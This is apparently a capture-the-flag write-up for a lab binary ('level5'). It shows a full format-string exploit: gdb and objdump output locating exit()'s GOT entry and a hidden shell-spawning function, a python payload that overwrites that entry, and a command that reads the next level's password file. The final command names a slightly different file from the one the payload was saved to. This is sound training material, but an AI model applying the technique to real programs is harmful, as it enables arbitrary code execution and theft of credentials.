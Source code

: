 In this level, the executable waits for an input, prints it, and exits after pressing enter.

After analyzing it with gdb, we see that the main() function calls a function named `n()`, but there is also a non-called function `o()`. 

The `main()` function calls `n()`, which is not very interesting by itself. However, inside `n()`, there is a call to `fgets()`:
```
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
This protects against buffer overflow attacks. After `fgets`(), there is a call to `printf()`:
```
0x080484f3 <+49>: call 0x8048380 <printf@plt>
```
This makes `printf()` vulnerable to a format string exploit.

The non-called function `o()` launches a shell via a call to `system()`:
```
0x080484b1 <+13>: call 0x80483b0 <system@plt>
```
We need to manipulate the `printf()` function into calling `o()` using a format string attack.

Our main concern is that both `n()` and `o()` never return and exit directly. Even if we overwrite something with the format string vulnerability, we may not be able to use that directly.

To overcome this, we can replace the address of `exit()` in the Global Offset Table (GOT) with the address of `o()`. Whenever `exit()` is called, the program will jump to the modified GOT entry.

First, find the address of `exit()` in the GOT and the address of `o()` function.
```
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

Now we have the address of `exit()`: `0x08049838` and the address of `o()`: `0x080484a4`.

We need to print the memory until we reach the address of `exit()`:
```
 python -c 'print "aaaa" + " %x" * 10' > /tmp/payload5
 cat /tmp/payload5 | ./level5
 aaaa 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520
```
The address of `exit()` is at the 4th position (`61616161`).


Our final format string attack:
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
cat /tmp/exploit - | ./level5
cat /home/user/level6/.pass
```
